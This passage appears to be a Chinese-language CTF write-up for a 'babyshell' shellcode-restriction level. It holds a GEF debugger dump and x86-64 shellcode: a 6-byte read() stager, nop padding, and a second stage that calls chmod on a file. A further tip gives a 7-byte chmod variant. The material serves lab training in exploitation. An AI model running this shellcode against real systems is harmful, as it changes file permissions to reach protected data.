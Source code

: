 ```shell
   0x55c16ef2c7b2 <main+619>       mov    rax, QWORD PTR [rip+0x287f]        # 0x55c16ef2f038 <shellcode>
   0x55c16ef2c7b9 <main+626>       mov    rdx, rax
   0x55c16ef2c7bc <main+629>       mov    eax, 0x0
 → 0x55c16ef2c7c1 <main+634>       call   rdx
   0x55c16ef2c7c3 <main+636>       lea    rdi, [rip+0xcda]        # 0x55c16ef2d4a4
   0x55c16ef2c7ca <main+643>       call   0x55c16ef2c130 <puts@plt>
   0x55c16ef2c7cf <main+648>       mov    eax, 0x0
   0x55c16ef2c7d4 <main+653>       leave  
   0x55c16ef2c7d5 <main+654>       ret    
───────────────────────────── arguments (guessed) ─────────────────────────────────────
*0x2d3f0000 (
   $rdi = 0x00007fcc8ab217e0 → 0x0000000000000000,
   $rsi = 0x00007fcc8ab20723 → 0xb217e0000000000a ("\n"?),
   $rdx = 0x000000002d3f0000 → 0x0000616161616161 ("aaaaaa"?)
)
───────────────────────────────── threads ────────────────────────────────────────────────
[#0] Id 1, Name: "babyshell_level", stopped 0x55c16ef2c7c1 in main (), reason: BREAKPOINT
────────────────────────────────── trace ────────────────────────────────────────────────
[#0] 0x55c16ef2c7c1 → main()
─────────────────────────────────────────────────────────────────────────────────────────
gef➤ 
```
## bypass：利用 read 读入更长的 shellcode
```python
sh = asm('''
	push rax
    pop rdi
    push rdx
    pop rsi
	syscall
''')    # 由于rdx作为地址，必然很大，因此可以直接作为read的字节数。仅需要将rsi也设置为该地址，rdi取0
p1 = asm('''
nop
nop
nop
nop
nop
nop
''')
 # 上面sh使用了6字节，由于再次read输入会从初始位置开始【上面设置了rsi = old_rdx】，
#                而rip在 +6 bytes地方，因此需要nop占位

p1 += asm('''
push 0x41
mov rdi,rsp
push 4
pop rsi
mov rax,0x5a      
syscall
''')
```
## Tips： 将当前 rcx 复制给 rdi，直接调用 chmod
```python
mov rdi,rcx
mov al,90	/* sys_chmod */
syscall

# 该shellcode长度为 7 bytes，不能bypass本level，仅提供一种新的缩短shellcode思路。
# 限制：rsi寄存器的值末N位转八进制需要具有读取权限（如：0o4）

```